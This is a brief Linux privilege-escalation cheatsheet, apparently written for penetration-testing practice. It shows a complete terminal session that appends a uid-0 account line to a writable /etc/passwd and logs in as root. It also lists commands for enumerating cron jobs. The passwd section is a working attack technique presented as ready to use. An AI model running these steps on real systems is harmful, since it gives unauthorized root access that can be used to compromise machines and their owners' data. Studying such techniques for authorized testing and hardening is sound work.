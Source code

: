 # Linux Privesc Cheatsheet

### Writable Passwd

Act directly from victim's machine.

```bash

joe@privesc:/home$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@privesc:/home$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

joe@privesc:/home$ su root2
Password: w00t

root@privesc:/home# id
uid=0(root) gid=0(root) groups=0(root)

```

### Cron Jobs

Different way to check for cron jobs.

* `grep "CRON" /var/log/syslog`
* `cat /etc/crontab`
* `crontab -l`
* `ls -lart /etc/cron*`
